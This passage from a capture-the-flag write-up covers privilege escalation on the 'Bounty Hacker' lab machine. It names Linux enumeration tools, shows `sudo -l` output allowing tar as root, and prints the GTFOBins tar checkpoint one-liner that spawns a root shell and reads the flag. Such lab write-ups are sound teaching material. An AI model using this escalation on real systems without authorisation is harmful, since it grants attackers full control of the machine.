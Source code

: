 At this point we need to look which possibilities we have to do privilege escalation. There are fancy tools out there like: [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinEnum](https://github.com/rebootuser/LinEnum), [pspy](https://github.com/DominicBreuker/pspy) and [LSE](https://github.com/diego-treitos/linux-smart-enumeration). But first look if there is something useful in the home directory of the user, then at `sudo` and the `crontab` first before using extra tools we need to grab. Scrips can save a lot of time, but basics quick checks can also save a lot of time, like in this case.

Checking what this user is allowed to do with `sudo` and this revealed that the user is allowed to run `tar` with `root` rights.

```commandline
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Looking at the [FGTOBins about sudo tar](https://gtfobins.github.io/gtfobins/tar/#sudo) which gave the tip how to gain `root` access:

```commandline
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
# cat /root/root.txt
THM{8***7Y_h4***r}
```

Mission finished in 15 minutes!

Took me `3`-`4` or more time to make this whole writeup!

I hope you enjoyed the dope and learned something from it!
